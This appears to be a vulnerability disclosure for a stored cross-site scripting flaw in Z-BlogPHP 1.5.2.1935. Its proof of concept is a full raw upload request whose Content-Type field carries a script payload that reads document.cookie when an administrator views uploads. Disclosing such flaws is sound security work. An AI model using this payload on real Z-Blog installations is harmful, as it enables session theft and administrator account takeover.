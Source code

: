 # Z-BlogPHP 1.5.2.1935 (Zero) Stored XSS via zb_system/function/c_system_admin.php  in 1237 line.
## Component
Z-BlogPHP 1.5.2.1935 (Zero) Download link:https://www.zblogcn.com/zblogphp

## Vulnerability location
zb_system/function/c_system_admin.php  in 1237 line.
![]()

## Vulnerability trigger condition
login with a author's privilege account
## POC 
edit Content-Type param value:<script>alert(document.cookie)</script>,then forward it.
```
POST /Z-Blog/zb_system/cmd.php?act=UploadPst&csrfToken=5fb877f1b3051a92b4c2f6809354caa5 HTTP/1.1
Host: 192.168.3.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng
Content-Type: multipart/form-data; boundary=---------------------------61109570014186299461550053428
Content-Length: 19160
Cookie: timezone=8; username=safetest; token=c8ab6b10998316d1390318ab2bc5b95b90c63c9c62d22fcfe2b6d379340e21911539683657; addinfoZ-Blog=%7B%22chkadmin%22%3A1%2C%22chkarticle%22%3A1%2C%22levelname%22%3A%22%5Cu4f5c%5Cu8005%22%2C%22userid%22%3A%223%22%2C%22useralias%22%3A%22safetest%22%7D; timezone=8
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="file"; filename="天气预报.png"
Content-Type: <script>alert(document.cookie)</script>

�PNG


IHDRvx'�asRGB���gAMA���a	pHYs���o�dIIDATx^�w�$e�����y=���� Q@I�A���$E0�""�����9�s�avvvvfv'��<ӓs�f��]�SU=�=��
���xY�U�=�u��~w��g��nz�m�:��������s�{���E�H<����tR���s������P?��!�;:����c��w���>���[�W��D��S1��k�k�cjDN(��U"�m��8Z)rD�2�C�!9���Ð�7�E�W)�=e�v�Z�t�C)��l+��E��(h��bSaP6lt=(`�R`��u�6?`X�g����U�ì�Y��X,�e6K��Y��E���+r[�����/ۧ����)h?W^�ݹ�v�X��i�S�n�l�ٖe��d�6{,6�ؘ��"\�O�XkaMZ��k�lX��Z�t�"�byr�,Kn��.�$
�����³6g,�i��0�f��h1GIh��.f)�3mf�LSN[LU�dJ\�L>U/-��Ih��V����x�?�;�uΞ���݈S��"CB�)t;�v�.U�#V�n�� �b�k�	y�#��T�:*k����j[��\��U�K#�#K	I�E.Mj4��2!r1��"O�.@�|�gc	m02�fq�T#y3a��#ՈE�d*S��$�^�bj�,Ln���+��]���VB-���Hu�鰕t*[�"mT���ȴ0"]8�tP�N:T�#t8��G��t�B��Se��K�:�XGh�Pe�-ԑ�����ZL�����I�
��j��������)
	E�r.�F*ݜKh�T�1R]B�T�)�L'�n�aR�h�4M��PK�[���%t4�HS�ڌ��s�6%�����!v2"'�u�	6�b�����lE�mWN{�	
�j�<�Pgu	E�J�Kf(��P��"�\RϙR[�Jo��s�5�,C��6���U�n���ROZ�]+�穀붖��U}�ێ���;�Z��a��&L"򶁊4��6����fÆ�SN�E�aF&�V���,W�4�D:��`D�m��f��"d-��eH �,�
�d�.��-9L��#�9.�|�}=�&��ܩ��d
-----------------------------61109570014186299461550053428
Content-Disposition: form-data; name="auto_rename"

on
-----------------------------61109570014186299461550053428--

```
when we login with administrator,access to link,http://192.168.3.216/Z-Blog/zb_system/admin/index.php?act=UploadMng,the Js code successfully executed.
Attackers can exploit this vulnerability to obtain import information such as administrator cookies.
![]()
